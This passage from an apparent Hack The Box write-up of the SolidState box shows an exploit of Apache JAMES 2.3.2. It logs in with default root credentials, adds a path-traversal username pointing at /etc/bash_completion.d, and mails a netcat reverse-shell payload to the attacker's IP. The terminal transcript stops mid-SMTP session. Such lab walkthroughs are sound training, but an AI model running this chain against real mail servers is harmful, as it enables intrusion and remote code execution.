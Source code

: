 ```
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
```

I tried several things that you can do to try and break out of a restricted shell but none of them seem to work.

So, going back to the RCE that I found, I decided to create a user with username `../../../../../../../../etc/bash_completion.d` and password `password`

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ nc 10.10.10.51 4555        
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
rPassword:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
adduser ../../../../../../../../etc/bash_completion.d password
User ../../../../../../../../etc/bash_completion.d added

```

Going back to the mail server to check whether I've received a mail for creating a new user.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/SolidState]
└─$ telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
EHLO bla.bla
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Thu, 26 Jan 2023 09:04:23 -0500 (EST)
250-solidstate Hello bla.bla (10.10.16.2 [10.10.16.2])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'random@random.com>
250 2.1.0 Sender <'random@random.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: bla.bla
'
/bin/nc -e /bin/bash 10.10.16.2 1234
```